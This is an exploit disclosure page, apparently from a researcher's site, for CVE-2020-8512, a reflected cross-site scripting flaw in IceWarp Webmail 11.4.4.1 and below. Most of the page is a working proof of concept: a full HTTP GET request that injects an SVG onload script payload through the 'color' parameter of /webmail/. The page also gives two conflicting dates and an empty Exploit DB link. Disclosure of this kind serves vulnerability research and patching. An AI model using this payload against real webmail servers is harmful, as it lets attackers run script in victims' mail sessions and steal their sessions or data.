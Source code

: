 ```yaml
---
title: "IceWarp 11.4.4.1 Cross-Site Scripting"
collection: exploits
excerpt: "IceWarp 11.4.4.1 Cross-Site Scripting"
permalink: /exploit/icewarp-xss-exploit
date: 2020-01-27
tags:
  - exploit
  - CVE 2020 8512
  - icewarp
  - Reflected XSS
  - IceWarp Webmail version 11.4.4.1
---
```


**Exploit Author :** Lutfu Mert Ceylan  
**Date :** 27.01.2019  
**Software Link :** https://gitlab.icewarp.com/pub/c-client/tree/tags/11.4.4.1/  
**Vendor Homepage :** https://www.icewarp.com/ 
**Version :** IceWarp 11.4.4.1 and below  
**Tested on :** Mozilla Firefox 56.0 && Opera 66.0.3515.44  
**Category :** Reflected XSS  
**CVE ID :** CVE-2020-8512  

<hr><br>  

**GET REQUEST :**

GET /webmail/?color="><svg/onload=alert("**XSS PAYLOAD**")> HTTP/1.1
Host: **host**
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:56.0) Gecko/20100101 Firefox/56.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: tr-TR,tr;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Cookie: **cookie**
Connection: close
Upgrade-Insecure-Requests: 1

**Vulnerable Page :**
/webmail/
**Vulnerable Parameter :**
color


Exploit DB : <a href="https://www.exploit-db.com/exploits/"></a>
